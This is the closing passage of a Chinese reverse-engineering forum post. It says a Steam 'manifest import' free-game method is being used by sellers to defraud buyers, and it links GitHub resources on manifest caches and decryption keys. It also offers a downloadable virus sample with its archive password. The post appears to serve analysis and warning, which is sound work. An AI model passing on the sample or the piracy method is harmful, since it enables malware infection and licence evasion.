

PixPin_2024-07-31_00-00-21.png (38.01 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjcxMzUzNXxlNzZmOGQ5NHwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzUzNXxlNzZmOGQ5NHwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1&nothumb=yes)

2024-7-31 00:00 上传

原来是这样！这是一种叫做“清单入库”的已经广为流传的Steam免费入库方式，结果被不法商家用于欺诈消费者，十分恶劣！

还有一些相关信息，大家可以自行查看→ `https://github.com/pjy612/SteamManifestCache/discussions/374` `https://github.com/pjy612/SteamManifestCache/wiki/DecryptionKey`

病毒样本

密码 52pojie


[href="forum.php?mod=attachment&aid=MjcxMzI1NXw4OTY4NzhkMnwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcxMzI1NXw4OTY4NzhkMnwxNzkzNTc2ODM5fDE2ODA4NnwxOTQ5NDk1)

(1.51 MB, 下载次数: 92)

2024-7-30 12:53 上传

点击文件名下载附件

下载积分: 吾爱币 -1 CB

完结撒花~
